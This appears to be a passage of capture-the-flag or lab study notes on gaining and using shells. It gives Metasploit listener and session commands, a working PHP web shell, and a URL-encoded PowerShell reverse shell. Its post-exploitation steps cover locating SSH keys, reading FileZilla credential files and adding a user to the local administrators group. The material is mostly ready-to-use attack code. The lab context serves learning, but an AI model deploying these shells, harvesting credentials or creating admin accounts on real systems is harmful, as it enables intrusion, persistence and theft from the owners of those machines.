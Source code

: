 #### What command can be used to start a listener in the background?
```bash
exploit -j
```

#### If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?
```bash
sessions 10
```

## WebShells
"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. 

- Basic PHP shell:
    ```php
    <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
    ```

    This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

- Encoded Windows PS shell:
    ```powershell
    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
    ```

## Next Steps
- For Linux, find SSH keys that usually stored id `/home/<user>/.ssh`
- For Windows, we can search credentials FileZilla at `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`.
- For Windows, add our user to access RDP, telnet, etc.:
    - `net user <username> <password> /add`.
    - `net localgroup administrators <username> /add`.

## Practice and Examples
Deploy the Linux or the Windows machine first.
